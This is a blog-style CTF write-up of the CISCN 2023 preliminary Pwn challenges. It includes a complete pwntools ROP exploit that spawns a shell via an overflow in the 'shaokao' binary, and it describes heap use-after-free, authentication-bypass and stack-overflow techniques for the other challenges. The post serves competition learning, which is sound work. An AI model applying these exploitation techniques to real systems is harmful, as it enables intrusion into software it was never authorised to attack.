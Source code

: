 ```yaml
---

title: 「Pwn」The 16th National College Student Information Security Contest CISCN Preliminary Writeup WP Reproduction

tags: ['CTF', 'Pwn', 'writeup', 'wp']

authors: [nova]
---
```


Couldn't make it to Singapore for the finals, so no time for that, just taking a look at the preliminary round.

It's hard to evaluate the Pwn questions in the preliminary round. The Pwn parts are all quite simple, but they throw in RE/WEB/MISC wrappers, and even after two days, pwn3 still couldn't be solved, so I didn't feel like looking into it further.

<!--truncate-->

## shaokao

A sign-in question. Use negative overflow to increase money and stack overflow to write ROP chains.

```python
from pwn import *

context.log_level = 'DEBUG'
context.os = 'linux'
context.arch = 'amd64'
context.terminal = 'wt.exe bash -c'.split(' ')

sh = process('./shaokao')
elf = ELF('./shaokao')

pop_rdi_ret = 0x40264f
pop_rsi_ret = 0x40a67e
pop_rax_ret = 0x458827
pop_rdx_rbx_ret = 0x4a404b
syscall_ret = 0x4230a6
name = elf.sym['name']

sh.sendlineafter('What\'s next?\n'.encode(), b'1\n1\n-100000\n4')
gdb.attach(sh, 'b *0x401F8D')
pause(4)
sh.sendlineafter('What\'s next?\n'.encode(), b'5\n' + b'/bin/sh'.ljust(0x28, b'\x00') + 
                 p64(pop_rdi_ret) + p64(name) + p64(pop_rax_ret) + p64(59) + 
                 p64(pop_rsi_ret) + p64(0) + p64(pop_rdx_rbx_ret) + p64(0)*2 + p64(syscall_ret))
sh.interactive()
```



## talkbot

Protobuf protocol question. The author sneakily changed 'protobuf' to 'BINARYBF' in the strings.

![image-20230528220826344](https://cdn.ova.moe/img/image-20230528220826344.png)

However, by searching later, it is still possible to find that it is 'protobuf'. Luckily, the protocol fields were directly written in the fields, and it was possible to guess the types based on the names.

![image-20230528221007371](https://cdn.ova.moe/img/image-20230528221007371.png)

It's unclear where the change was made, but upon testing it was found that actionid, msgidx, msgsize all need to be multiplied by 2 to get normal values.

Since writing protobuf is too complicated, a [pwnutils](https://github.com/MuelNova/PwnUtils) script was created to simplify the process.

Menu:

```python
def new(idx: int, size: int, content: bytes):
    sh.sendafter(b'now: \n', pb_serialize([1*2, idx*2, size*2, content]))

def edit(idx: int, content: bytes):
    sh.sendafter(b'now: \n', pb_serialize([2*2, idx*2, 2, content]))

def show(idx: int):
    sh.sendafter(b'now: \n', pb_serialize([3*2, idx*2, 2, b'A']))

def delete(idx: int):
    sh.sendafter(b'now: \n', pb_serialize([4*2, idx*2, 2, b'A']))
```

The vulnerability lies in not setting the pointer to 0 in `del`, causing a UAF vulnerability. By exploiting tcache and UAF, it's a simple challenge. There is also a hidden vulnerability in the add function, which can be exploited without UAF.

Exploit:

```python
# Exploit code
```



## PDC2.0

Does it really belong to the Pwn category? For version 1.0, see [Gamma Experimental Field | PDC Wall Facing Plan Management System - From the Perspective of the Question Creator | CTF Navigation (ctfiot.com)](https://www.ctfiot.com/100552.html)

Received attachments include app.py, cmdHistory, a traffic package, and the aiortc library.

By analyzing aiortc through diff, it is revealed that it changed ECC to RSA. The reason for this change can be found in the link provided above.

By examining the traffic package and searching for the 'tell2me' route, a token for 'weisi' can be found. His sk is known to us, as seen in app.py.

![image-20230528222953911](https://cdn.ova.moe/img/image-20230528222953911.png)

By observing app.py, it is possible to access the download route, including an editDatabase endpoint.

![image-20230528222602012](https://cdn.ova.moe/img/image-20230528222602012.png)

Database editing requires the sk of 'luoji', which is not directly obtained from pk2sk[pk]. Instead, a loop check is implemented. This sets the stage for a clever exploitation: if submitToken[45:] is 'luojiweisi', the sk becomes pk2sk[weisi] which is known, thus passing the '[45:50] == luoji' check. Utilizing this, it's possible to generate an HMAC-like value, bypass the authentication, and potentially access secret data.

Additionally, by examining 'cmdHistory', the location of 'ssl.log' is revealed. While it can be used to download and decrypt DTLS traffic, it requires further investigation which was hindered by issues with Wireshark.

Furthermore, using aiortc to communicate with the server requires RTC, which could not be established due to connectivity issues.

Moving on to the Pwn part, it seems straightforward.

![image-20230528223623912](https://cdn.ova.moe/img/image-20230528223623912.png)

A memcpy operation overflows by 0x18 bytes from the return address, setting up a rop chain to call pop rdi;ret [fake rdi]; addr_of_sqlite3_exec. Fake rdi should be placed on the input buffer to construct a statement for execution.

Without a runtime environment, the challenge could not be solved.

## funcanary

Characterized by forking, where the canary remains constant.

Without a remote environment and local testing failing, it was challenging to identify the issue, which may require additional multithreaded debugging.

Code snippet:

```python
# Exploit script
```

## shellwego

A Go challenge, where reverse engineering outweighs Pwn aspects.

Restoring the symbol table using [go_parser](https://github.com/0xjiayu/go_parser), was a bit tricky due to its lack of support for go1.2x versions. Adjusting the magic number allowed it to run and recover the symbol table (though type recovery was unsuccessful).

Reading the pseudocode was essential since details were inadvertently removed. It was carefully disassembled line by line.

The privilege escalation involves an interesting authentication logic, which utilizes RC4 and base64 encryption to validate a passphrase provided in the challenge.

The challenge includes instructions for privilege escalation using commands such as `ls, cat, echo, chdir`, which presents further reverse engineering complications. By setting a carefully crafted layout, it was possible to control the return address and launch a ROP chain.

Overall, the difficulty level was moderate, with the primary challenge lying in the intricate reverse engineering process.

## pwn6

A Blind PWN challenge without a remote environment and a lost path for exploitation.

## Final Thoughts

The Pwn challenges in the national finals were categorized as easy, medium, and hard, with a clear distinction. The finals Pwn challenges may present more complexity this year, but fortunately, I wasn't the one competing. 😄

The Pwn parts of the national competition weren't very difficult this time, while other parts posed greater challenges, making for an interesting competition.

<!-- AI -->
